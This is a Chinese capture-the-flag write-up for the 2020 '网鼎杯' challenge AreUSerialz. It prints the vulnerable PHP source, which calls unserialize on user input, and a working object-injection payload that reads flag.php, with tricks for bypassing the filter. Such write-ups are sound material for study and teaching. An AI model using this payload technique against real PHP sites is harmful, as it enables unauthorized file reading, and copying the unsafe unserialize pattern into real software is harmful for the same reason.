 # [网鼎杯 2020 青龙组]AreUSerialz

1. 打开页面得到源代码

```PHP
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```



2. 修改代码，构造反序列化Payload

![image-20211012161630268](https://i.loli.net/2021/10/12/rhepcVZ6SDda1Ji.png)

![image-20211012161817004](../../../../../../Users/apple/Library/Application Support/typora-user-images/image-20211012161817004.png)

```basic
O:11:"FileHandler":3:{s:5:"*op";i:2;s:11:"*filename";s:8:"flag.php";s:10:"*content";s:6:"123456";}
```

修改Payload:

- 使用十六进制绕过字符范围检测
- 小写s替换为大写S
- *号前后的**%00**替换为**\00**
- 添加`R:2`

```
O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:8:"flag.php";S:10:"\00*\00content";S:6:"123456";R:2}
```

![image-20211012162927972](https://i.loli.net/2021/10/12/OA3eoMnjbvykCVg.png)



Get Flag!